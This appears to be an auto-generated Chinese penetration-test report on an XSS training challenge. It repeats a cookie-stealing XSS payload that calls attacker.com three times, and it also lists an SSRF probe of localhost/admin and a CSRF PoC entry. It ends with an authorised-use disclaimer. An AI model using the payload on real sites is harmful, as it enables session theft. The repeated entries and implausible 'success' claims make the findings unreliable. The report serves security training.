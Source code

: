 ### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### SSRF 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: http://localhost/admin
- 利用结果: 成功访问内网端点: http://localhost/admin

### CSRF 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: level3.php
- 使用的Payload: CSRF POC
- 利用结果: 已生成CSRF POC: csrf_poc_1737295660.html

## 免责声明
本报告中的攻击方法仅用于授权的安全测试和研究目的。
在使用这些方法之前，请确保：
1. 您有明确的授权许可
2. 仅在测试环境或授权范围内使用
3. 不要对未授权的目标使用这些方法
4. 遵守相关法律法规和道德准则